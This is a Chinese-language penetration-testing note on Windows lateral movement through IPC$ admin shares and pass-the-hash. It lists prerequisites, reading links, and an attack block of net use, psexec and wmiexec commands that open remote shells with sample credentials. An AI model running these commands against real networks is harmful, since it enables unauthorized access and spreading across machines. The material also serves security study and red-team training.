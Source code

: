 关于 IPC$ 应用的基本知识点可见笔记 [IPC$](../../../Integrated/Windows/笔记/IPC$.md)

**相关文章**
- [IPC$入侵大全](https://www.cnblogs.com/backlion/p/7401609.html)
- [内网渗透 | 基于IPC的横向移动](https://sec.thief.one/article_content?a_id=033847e03bd6e49dbc730c7315d5b4d6)
- [关于IPC和PTH用户权限问题](https://ares-x.com/2020/03/10/%E5%85%B3%E4%BA%8EIPC%E5%92%8CPTH%E7%94%A8%E6%88%B7%E6%9D%83%E9%99%90%E9%97%AE%E9%A2%98/)

**IPC$ 的利用条件**

- 139，445 端口开启
- 管理员开启了默认共享

**攻击方式**
```bash
net use \\192.168.1.1\c$ “12345@12345qw” /user:ffffffff0x\administrator
net use \\192.168.1.1\c$ "123456" /user:administrator         # 建立的非空连接
net use \\192.168.1.1\c$  "" /user:administrator              # 空连接，无密码
net use \\192.168.1.1\c$ /del   # 删除建立的 IPC 连接
net use                         # 查看本机连接共享情况

psexec.exe \\192.168.1.1 cmd    # 通过 psexec 工具进行会话连接执行
psexec.exe \\192.168.1.1 cmd -u administrator -p 123456

csript.exe wmiexec.vbs /shell 192.168.1.1 administrator 123456
```

---

### PTH

path-the-hash,中文直译过来就是 hash 传递，在域中是一种比较常用的攻击方式。

利用前提是我们获得了某个用户的密码哈希值，但是解不开明文。这时我们可以利用 NTLM 认证的一种缺陷，利用用户的密码哈希值来进行 NTLM 认证。在域环境中，大量计算机在安装时会使用相同的本地管理员账号和密码。因此，如果计算机的本地管理员账号密码相同，攻击者就能使用哈希传递攻击登录内网中的其他机器，扩展权限。

**相关文章**
- [hash传递攻击研究](http://sh1yan.top/2019/05/19/Hash-Passing-Attack-explore/)
- [Passing-the-Hash to NTLM Authenticated Web Applications](https://labs.f-secure.com/blog/pth-attacks-against-ntlm-authenticated-web-applications/) - PTH 在 Web 应用中的应用
- [浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/)
- [KB22871997是否真的能防御PTH攻击？](https://www.anquanke.com/post/id/193150)

**攻击适用情况**
- 在工作组环境中：
    - Vista 之前的机器，可以使用本地管理员组内用户进行攻击。
    - Vista 之后的机器，只能是 administrator 用户的哈希值才能进行哈希传递攻击，其他用户(包括管理员用户但是非 administrator)也不能使用哈希传递攻击，会提示拒绝访问。
- 在域环境中
    - 只能是域管理员组内用户(可以是域管理员组内非 administrator 用户)的哈希值才能进行哈希传递攻击，攻击成功后，可以访问域内任何一台机器。

**攻击必要条件**

- 哈希传递需要被认证的主机能够访问到服务器
- 哈希传递需要被传递认证的用户名
- 哈希传递需要被传递认证用户的 NTLM Hash

